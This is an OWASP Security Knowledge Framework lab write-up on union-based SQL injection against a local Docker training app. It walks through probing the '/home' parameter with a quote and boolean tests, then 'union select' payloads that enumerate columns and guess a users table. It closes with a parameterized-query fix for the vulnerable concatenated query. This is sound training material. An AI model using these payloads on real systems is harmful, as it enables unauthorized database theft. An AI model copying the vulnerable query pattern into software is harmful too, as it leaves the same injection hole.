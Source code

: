 # KBID 46 - SQLI \(union select\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:sqli
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Zerocopter!](.gitbook/assets/zerocopter-logo.jpeg)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](.gitbook/assets/screen-shot-2019-01-10-at-11.54.46.png)

```text
http://127.0.0.1:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](.gitbook/assets/sqli2.png)

```text
http://127.0.0.1:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error.

![](.gitbook/assets/sqli3.png)

```text
http://127.0.0.1:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](.gitbook/assets/screen-shot-2019-01-10-at-12.05.59.png)

```text
http://127.0.0.1:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](.gitbook/assets/sqli5.png)

```text
http://127.0.0.1:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content

![](.gitbook/assets/sqli-table.png)

![](.gitbook/assets/screen-shot-2019-01-10-at-12.06.27.png)

```text
http://127.0.0.1:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](.gitbook/assets/sqli7.png)

```text
http://127.0.0.1:5000/home/1 union select 1,2,3 from user
```

![](.gitbook/assets/screen-shot-2019-01-10-at-12.07.42.png)

```text
http://127.0.0.1:5000/home/1 union select 1,2,3 from users
```

## Mitigation
SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:
PATH:/SQLI/models/sqlimodel.py

```
cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId='+pageId)
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```
cur = db.execute('SELECT pageId, title, content FROM pages WHERE pageId=?', (pageId,))
```

Can you try to implement input validation or escaping?



## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\)](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29)
